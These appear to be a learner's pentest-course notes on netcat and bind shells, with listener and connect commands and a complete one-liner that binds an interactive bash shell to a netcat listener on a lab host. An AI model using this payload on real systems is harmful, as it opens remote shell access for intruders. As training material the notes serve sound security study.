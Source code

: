 - target listen and attacker connect ![[shell and payload/image-1.png|451x262]]
- `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output.

<span style="color:rgb(0, 176, 80)">server</span> --> target
<span style="color:rgb(0, 176, 80)">client</span> --> attacker

### server
```bash
nc -lvnp 7777
```
he listener is started and awaiting a connection from the client.

### client
```bash
nc -nv <IP> <PORT>
```
Once we successfully connect, we can see a `succeeded!` message on the client as shown

`hear we cant communicat with the server`

## establishing a basic blind shell

#### Server - Binding a Bash shell to the TCP session

we delivered this payload manually
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
#### Client - Connecting to bind shell on target

```bash
nc -nv 10.129.41.200 7777
```
